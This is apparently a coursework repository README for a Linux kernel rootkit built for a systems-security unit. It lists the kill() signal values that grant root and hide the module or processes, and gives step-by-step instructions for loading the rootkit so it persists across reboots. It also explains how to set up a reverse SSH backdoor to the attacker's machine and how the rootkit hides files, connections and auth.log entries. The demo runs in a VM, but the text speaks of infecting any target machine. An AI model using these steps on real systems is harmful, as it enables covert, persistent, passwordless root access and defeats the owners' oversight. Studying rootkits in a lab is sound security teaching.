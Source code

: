 # S3CW
Repository for Systems and Software Security unit coursework

## Interacting with the Rootkit

Some commands are accessible by using the system call `kill(pid_t pid, int, sig)`. Running this call with the following `sig` values will use our overridden method:

| `sig` value | Result                                  |
| ----------- | --------------------------------------- |
| 32          | Gain root access                        |
| 33          | Hide the rootkit module from the list   |
| 34          | Unhide the rootkit module from the list |
| 35          | Hide any programs with a PID of `pid`   |



## Building Instructions

### <u>Backdoor Configuration Instructions</u>
Some set up is needed on the computer you wish to use to access the comprimised machine remotely, and without the need for their password. It is highly recomended that you use a Linux based machine to access the comprimised computer, as our method is not verified on Windows or MacOS.

***Turn on SSH port forwarding***

For own computer connecting to rootkit back door:
1. Go to your router settings via a browser (address is typically 192.168.0.1, but your router should show somewhere how to get to the router configuration page).
2. Find your local ip address by using `ifconfig` then comparing the **inet** addresses until you find one that appears on your router settings site.
3. Using `ifconfig`, find your **subnet mask**, and **Default gateway** corresponding to the ip address you just found. Default gateway is typically your ip address with the last section being 1 (i.e. x.x.x.1, where 0 <= x <= 255)
3. We need to ensure our own pc has a static IP on the network to make sure port forwarding always works, and the ssh backdoor tunnel can always be made:

***Linux***
1. Go to **Settings**->**Network**
2. Click on the cog next to the network device that you use to connect to your router (Ethernet or Wifi)
3. Go to the **IPv4** tab, and in **IPv4 Method** select **Manual**. This will give us a static IP
4. Type in the **ip address**, **subnet mask** and **gateway** you found earlier. In the **DNS** field, we can use the Google Public DNS which has address `8.8.8.8`
5. Click **apply**

***Now we have a static IP set, we need to add port forwarding rule***
1. Goto your routers settings
2. Add a port forwarding rule (usually in security or firewall) for port 22 and your local static ip address


### <u>Configuration before installing rootkit</u>
1. You need to generate an ssh rsa keypair. To do this run `ssh-keygen` and hit the *enter* key every time you are prompted for input. If you already have `~/.ssh/id_rsa` and `~/.ssh/id_rsa.pub`, make sure that your user has read write access (can check this through `ls -l ~/.ssh`). If your user doesn't have access (i.e. it says `root` instead), then remove these current keys (may need to do `sudo rm...`) and then run `ssh-keygen` **without `sudo`**.
2. Make sure python is installed, and run `python backdoor_config.py` to set up file with your username, public ssh rsa key, and public ip address. This will be used by the rootkit to set up an ssh backdoor so you can connect to the infected machine. 
3. Move the `backdoor_config.txt` file into the `virus` folder.
4. ONLY MOVE THE **rootkit** FOLDER TO THE MACHINE YOU WANT TO INFECT


### <u>Booting Vagrant</u>
In order to showcase our rootkit, we will be using a Vagrant VM running Ubuntu 12.04. However, any Linux machine (VM or on *bare metal*) with an internet connection and running Ubunutu 12.04 will work. If you use a VM make sure in its network settings the adapter is of type **bridged adapter**.
1. `vagrant up` in folder containing vagrant file
2. If asked which adapter to bridge too when booting vagrant, select the adapter you use to connect to the internet (can find this out using `ifconfig` and seing which one has your static ip address).
3. Move rootkit folder to 'guest' folder (in same directory as vagrant file is in)
4. `vagrant ssh` 

### <u>Setting up rootkit with loading on boot</u>
The rootkit will make itself boot by editing `/modules/etc`, but you need to follow these steps first:
1. ``` sudo apt-get install linux-headers-`uname -r` ```
2. `sudo mkdir /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
3. `sudo cp /vagrant/* /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit -r`
4. `cd /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
5. `sudo make all`
6. `sudo depmod` which resets relevant systems to allow our module to be loaded on boot
7. `sudo insmod rootkit.ko`
8. To establish backdoor, go to `cd virus` and then run `./backdoor`. You will need to enter your home compyter's password for ssh key exchange
Warning: there is no way to remove the rootkit after this - if you want to recompile then either use signals to disable some functionality or reset your box.

### <u>Using backdoor</u>
1. Whilst you have access to the system you are infecting, run the command `whoami` and make a note of the result that is produced. We will need this to ssh into the system
2. We have set up a reverse ssh tunnel, meaning that whenever our router sees we are sending a request to `localhost` on port `7000` it will divert this to port `22` of our infected system
3. To access the infected system, simply type the command `ssh targetUser@localhost -p 7000` and you will have access to their system without the need for their password

### <u>Showing Rootkit features</u>
1. To see that our rootkit is not in modules list, run `sudo lsmod` and inspect the list
2. To see that our rootkit and virus files are hidden, go to `cd /lib/modules/3.2.0-126-generic/kernel/drivers/`. Running `ls`, `l`, `dir` will yield that `rootkit/` cannot be seen, as well as with `ls rootkit` etc. once you have `cd rootkit` the same can be seen for `virus` file with out payload.
3. To see that backdoor connections are hidden, we can run any networking command: `netstat`, `who`, `last`, `w`, `ss` and our ip address or any ssh connections will be hidden
4. opening the `/var/log/auth.log` file will not show evidence of our ssh connection once the rootkit has been loaded
5. To demonstrate root access, our payload program calls the hooked `kill` syscall when making a bash script. Running `./payload` or `./payload root` will give us a root terminal. This can be confirmed by running `whoami` 
6. In order to demonstrate program hiding we have to options. First by running our `./payload` script in our `/rootkit/virus/` folder wil give us a bash terminal. Whilst running `ps` will show our payload process, if we ssh in again to the compromised VM and run `ps` from this terminal, we see that it is infact hidden. Second, we can find a process ID using `ps` or `top`, and then execute `./payload hidepid $PID` and this will hide any process.


small programs cant be seen in `top` as dont use enough cpu. can see hiding processes though using `ps`. Execute `sleep 120 &` for demo program as payload doesnt run long enough